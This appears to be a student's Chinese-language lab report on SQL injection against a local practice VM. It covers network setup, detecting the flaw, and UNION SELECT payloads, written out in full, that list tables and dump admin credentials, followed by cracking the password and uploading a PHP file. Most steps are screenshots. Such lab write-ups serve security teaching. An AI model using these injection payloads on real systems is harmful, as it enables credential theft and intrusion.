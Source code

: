 # 第三次实验报告

## SQL注入

### 准备工作
下载镜像，配置网络，但遇到了问题导致无法配置NAT网络，后查找资料并没有得到解决 尝试使用了网络地址转换 但无法改变ip地址 通过学习他人的经验 了解到可以通过宿主机直接访问来避免这个问题

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/1.png)

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/2.png)

通过改变端口转发规则以及改变宿主机的代理规则

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/3.png)

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/4.png)

实现在宿主机直接进行访问
![image](https://github.com/BurnyMcDull/image/raw/master/hw3/5.png)

分析发送的请求 获得服务器的信息
![image](https://github.com/BurnyMcDull/image/raw/master/hw3/6.png)

### 检查sql漏洞

整数检测

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/7.png)

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/8.png)

存在sql的漏洞

通过尝试得知select语句含有四列

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/9.png)

通过注入获得信息

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/10.png)

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/11.png)

http://127.0.0.1:8080/cat.php?id=3 union select 1,table_name,3,4 from information_schema.tables

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/12.png)

在通过查询找到users表里有账号与密码

http://127.0.0.1:8080/cat.php?id=3 union select 1,concat(login,':’27,password),3,4 from users

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/13.png)

获得管理员的密码

在线解密得到P4ssw0rd

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/14.png)

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/15.png)

上传php文件

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/16.png)

分析页面

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/17.png)

访问地址获得返回值

运行成功

![image](https://github.com/BurnyMcDull/image/raw/master/hw3/18.png)



